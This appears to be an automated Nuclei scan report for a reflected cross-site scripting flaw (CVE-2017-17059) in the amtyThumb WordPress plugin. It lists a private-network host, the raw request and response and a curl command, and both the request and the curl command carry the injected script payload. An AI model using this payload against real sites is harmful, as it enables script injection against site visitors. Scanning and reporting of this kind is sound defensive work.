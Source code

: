 ### amtyThumb posts 8.1.3 - Reflected Cross-Site Scripting (XSS) (CVE-2017-17059) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2017-17059**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/amty-thumb-recent-post/amtyThumbPostsAdminPg.php?%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E=1

**Timestamp**: Wed Jun 8 20:22:11 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | amtyThumb posts 8.1.3 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2017, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | XSS exists in the amtyThumb amty-thumb-recent-post (aka amtyThumb posts or wp-thumb-post) plugin 8.1.3 for WordPress via the query string to amtyThumbPostsAdminPg.php. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2017-17059](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-17059) |
| CVSS-Score | 6.10 |

**Request**
```http
POST /wp-content/plugins/amty-thumb-recent-post/amtyThumbPostsAdminPg.php?%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E=1 HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Content-Length: 13
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

amty_hidden=1
```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 260
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/amty-thumb-recent-post/amtyThumbPostsAdminPg.php?</script><script>alert(document.domain)</script>=1</B> was not found.</BODY></HTML>
```

References: 
- https://github.com/naturalintelligence/wp-thumb-post/issues/1
- https://nvd.nist.gov/vuln/detail/cve-2017-17059
- https://packetstormsecurity.com/files/145044/wordpress-amtythumb-8.1.3-cross-site-scripting.html

**CURL Command**
```
curl -X 'POST' -d 'amty_hidden=1' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/amty-thumb-recent-post/amtyThumbPostsAdminPg.php?%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E=1'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
